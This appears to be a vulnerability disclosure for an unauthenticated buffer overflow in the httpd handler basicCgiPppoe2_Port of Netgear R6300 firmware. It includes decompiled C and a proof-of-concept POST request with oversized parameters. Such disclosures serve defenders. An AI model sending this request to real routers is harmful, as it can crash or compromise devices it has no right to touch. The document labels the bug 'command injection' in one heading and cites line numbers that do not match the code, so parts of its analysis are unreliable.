 # Buffer Overflow Vulnerability in `basicCgiPppoe2_Port`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6300 Router                                         |
| Firmware Version     | V1.0.2.80_1.0.59                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`basicCgiPppoe2_Port`)                              |
| Prerequisites        | No authentication required; attacker must supply crafted inputs via web interface parameters `Port_1`, `Port_2`, `Protocol`, `policyIndex` |

2. Exploitation Path

```c
int __fastcall basicCgiPppoe2_Port(int a1, int a2)
{
  int v4; // $a1
  char v6[8]; // [sp+18h] [-120h] BYREF
  char v7[8]; // [sp+20h] [-118h] BYREF
  char v8[8]; // [sp+28h] [-110h] BYREF
  char v9[8]; // [sp+30h] [-108h] BYREF
  char v10[256]; // [sp+38h] [-100h] BYREF

  memset(v6, 0, sizeof(v6));
  memset(v7, 0, sizeof(v7));
  memset(v8, 0, sizeof(v8));
  memset(v10, 0, sizeof(v10));
  websGetVar(a1, "Port_1", v6);
  strcpy(v10, v6);
  strcat(v10, "-");
  websGetVar(a1, "Port_2", v7);
  strcat(v10, v7);
  websGetVar(a1, "Protocol", v8);
  strcat(v10, ",");
  strcat(v10, v8);
  websGetVar(a1, "policyIndex", v9);
  if ( v9[0] )
    v4 = atoi(v9);
  else
    v4 = 0;
  sub_42505C(v10, v4);
  sendPage2Client("BAS_basic.htm", a2);
  return 0;
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: 
   - In the `basicCgiPppoe2_Port` function at line 14, the call `websGetVar(a1, "Port_1", v6)` writes into a destination buffer `v6` of size **8 bytes**. While `websGetVar` enforces a 255-byte limit, no additional validation is performed, resulting in a buffer overflow vulnerability.
   - At line 17, `websGetVar(a1, "Port_2", v7)` stores attacker-controlled input into the **8-byte** buffer `v7` under the same insufficient constraints, leading to a buffer overflow vulnerability.
   - At line 19, `websGetVar(a1, "Protocol", v8)` targets the **8-byte** buffer `v8`, again exposing a buffer overflow vulnerability due to lack of length checks beyond the 255-byte restriction.
   - At line 22, `websGetVar(a1, "policyIndex", v9)` places unvalidated input into the **8-byte** buffer `v9`, causing another buffer overflow vulnerability.
   - At line 21, `strcat(v10, v8)` appends user-controlled content into buffer `v10` (size **256 bytes**). After previous concatenation operations at lines 18 (`strcat(v10, v7)`) and 20 (`strcat(v10, ",")`), this cumulative operation can overflow the buffer `v10`, resulting in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/basicCgiPppoe2_Port HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 1024
Connection: close

Port_1=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
&Port_2=BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
&Protocol=CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
&policyIndex=DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```